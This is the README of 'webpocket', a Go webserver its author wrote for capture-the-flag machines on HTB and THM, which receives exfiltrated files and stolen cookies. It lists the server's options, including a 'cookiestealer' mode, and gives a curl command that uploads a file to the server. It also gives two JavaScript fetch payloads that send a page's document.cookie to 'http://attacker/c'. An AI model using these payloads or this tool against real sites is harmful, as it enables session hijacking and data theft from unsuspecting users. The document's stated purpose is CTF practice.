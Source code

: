 # webpocket

Your online five finger discount!

A simple webserver you can send files or cookies to. I wrote it specifically for machines on HTB, THM etc.

## Usage:

### CLI arguments

```plaintext=
-h           help
-a <address> address to listen on
-p <port>    specify the port, which the server should run on. Default: 6969
-s <size>    max file size. Default: ~33MB
-k           killswitch, server shuts down after receiving a file

-c           activate cookiestealer
-cl          Output file for cookielog. -c needs to be provided. Default: cookielog.txt
```

### Send data

**POST**

```bash=
curl -X POST --form "data=@/path/to/file" http://<server-ip>:6969
```

**Cookies via POST**

```js=
fetch('http://attacker/c', {method: "POST", mode: "no-cors", body: document.cookie})
```

**Cookies via GET**

```js=
fetch('http://attacker/c?'+document.cookie.trim().replace("; ", "&"), {method: "GET", mode: "no-cors"})
```

## Building

```bash=
git clone https://github.com/hobirst/webpocket
cd webpocket
go build .
mv webpocket <somewhere/in/$PATH>
```

## Contributions

Yes please
